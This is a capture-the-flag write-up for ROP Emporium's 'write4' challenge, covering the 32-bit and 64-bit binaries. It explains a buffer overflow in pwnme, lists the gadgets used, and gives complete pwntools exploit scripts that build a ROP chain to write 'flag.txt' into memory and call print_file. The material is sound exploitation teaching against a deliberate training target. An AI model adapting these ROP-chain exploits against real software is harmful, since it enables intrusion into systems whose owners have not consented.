






# write


* Architecture: x86 (32-bit)


Link : [write4](https://ropemporium.com/challenge/write4.html)

Binary : [write4 x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/write432.zip)


## Challenge Overview

The `write432` challenge is part of ROP Emporium's x86 Return-Oriented Programming (ROP) practice exercises. The objective is to use ROP techniques to write the string `flag.txt` into the `.data` section of the binary and call the `print_file` function to read and display the file's contents.


## Challenge Details

* Binary Name: `write432`

* Architecture: x86 (32-bit)

* Vulnerability: Buffer overflow in the `pwnme` function, allowing control of the program's execution flow.

* Goal: Exploit the buffer overflow to:

* Write `flag.txt` into the `.data` section of memory.

* Call `print_file` with the address of the `.data` section as its argument.


## Vulnerability Analysis


### The `main` Function (Program Code)

The `main` function in the `write432` binary serves as the entry point:



It simply calls the vulnerable pwnme function.


### The `pwnme` Function (From `libwrite432.so`)

The `pwnme` function is the vulnerable entry point:




* Buffer Overflow: The function reads up to 512 bytes into a 36-byte buffer (`s`), allowing for overwriting of the saved return address.


### The `print_file` Function (From libwrite432.so)

The `print_file` function reads and prints the contents of a specified file:




* Purpose: Opens the file specified by the `filename` argument, reads its content into a buffer, and prints it.

* Address in Binary: 0x080483d0




```asm
> ROPgadget --binary write432

0x08048543 : mov dword ptr [edi], ebp ; ret
0x080485aa : pop edi ; pop ebp ; ret
```




### Key Gadgets (From Program Code)

ROP gadgets required to exploit the vulnerability:

1. `pop edi; pop ebp; ret` (Address: `0x080485aa`):

	* Loads values into `edi` (target memory address) and `ebp` (data to write).

2. `mov dword ptr [edi], ebp; ret` (Address: `0x08048543`):

	* Writes the value in `ebp` to the memory address pointed to by `edi`.


### Writable Memory Section

* `.data` Section: Address starts at `0x0804a018` and is writable, making it suitable for storing `flag.txt`.


## Exploitation Steps


### Step 1: Write `flag.txt` to the `.data` Section

Using ROP gadgets, the string `flag.txt` is written in two parts:

1. Write flag to `0x0804a018`.

2. Write .txt to `0x0804a018+4`.


### Step 2: Call `print_file`

After constructing the string in memory, the `print_file` function is called with the address of the `.data` section as its argument.

## Exploit Code

```py
from pwn import *

sh = process("./write432")

print(sh.recv().decode())

payload = b"A"*44

# Write 'flag' to .data
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018) # .data
payload += b"flag"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Write '.txt' to .data + 4
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018 + 4) # .data
payload += b".txt"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Call print_file("flag.txt")
payload += p32(0x80483d0) # print_file
payload += b"A"*4		  # Padding
payload += p32(0x0804a018) # .data

sh.sendline(payload)
print(sh.recv().decode())
```


## Explanation of the ROP Chain

### Writing to Memory

The ROP chain uses gadgets to write arbitrary values to memory:

1. `pop edi; pop ebp; ret`: Loads the destination address (`edi`) and the value to write (`ebp`).

2. `mov dword ptr [edi], ebp; ret`: Writes the value in `ebp` to the memory location pointed to by `edi`.

By chaining these gadgets, `flag` and `.txt` are written to consecutive memory locations in the `.data` section.


### Calling `print_file`

Finally, the `print_file` function is called with the address of `flag.txt` in the `.data` section. Padding ensures proper alignment of the stack.


## Exploit Output

Running the exploit produces the following output:




This challenge demonstrates the fundamentals of ROP exploitation on x86 binaries and highlights the importance of secure memory management.


* Architecture: x64 (64-bit)


The `write4` challenge involves exploiting a buffer overflow to write the string `flag.txt` into the writable `.data` section and calling the `print_file` function to read and print its contents.

Key Steps:

* Writing `flag.txt`: Use the `pop r14; pop r15; ret` and `mov qword ptr [r14], r15; ret` gadgets to write `flag.txt` into the `.data` section at `0x601028`.
* Calling `print_file`: Use the `pop rdi; ret` gadget to set the first argument (`rdi`) to the `.data` section address and call the `print_file` function.


```py
from pwn import *

sh = process("./write4")

print(sh.recv().decode())

payload = b"A"*(40)

payload += p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
payload += p64(0x0000000000601028) # .data
payload += b"flag.txt"
payload += p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret

# Call print_file

payload += p64(0x0000000000400693) # pop rdi ; ret
payload += p64(0x0000000000601028) # .data
payload += p64(0x00400510) # print_file

sh.sendline(payload)
sh.interactive()
```
